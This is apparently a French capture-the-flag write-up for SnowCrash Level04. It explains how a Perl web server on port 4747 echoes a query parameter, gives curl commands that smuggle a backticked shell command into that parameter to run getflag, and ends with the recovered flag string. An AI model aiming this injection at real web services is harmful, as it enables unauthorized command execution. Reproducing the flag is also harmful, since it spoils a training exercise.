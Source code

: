 #+TITLE: SnowCrash -- Level04

* A partir des informations et de quelques recherches sur le net, on peut deduire que :
Un serveur web tourne sur le port 4747, et le fichier que nous avons devant nous correspond au code source de celui-ci
Nous allons simplement utiliser ce fichier pour mieux creer notre payload, mais celui-ci ne nous permattra pas directement d'obtenir le flag.
#+begin_src bash
curl -vvv localhost:4747
#+end_src
 la connection est reussie, le content est vide mais le type correspond bien a ce qui se trouve dans le fichier perl
* Il est temps d'ecrire le payload. *
 Je remarque que le serveur renvoie la valeur de x dans le content. exemple :
 #+begin_src bash
 curl -vvv localhost:4747?x=bonjour
 #+end_src
  renvoie bonjour avec une taille de contenu de 8
En tant que surhommes, nous connaissons bien le bash et ses defauts. L'injection de commande suivante est donc possible :
#+begin_src bash
curl -vvv localhost:4747'?x=`getflag`'
#+end_src
le flag se retrouve alors dans le contenu renvoye par le serveur web

* FLAG :
 ne2searoevaevoem4ov4ar8ap
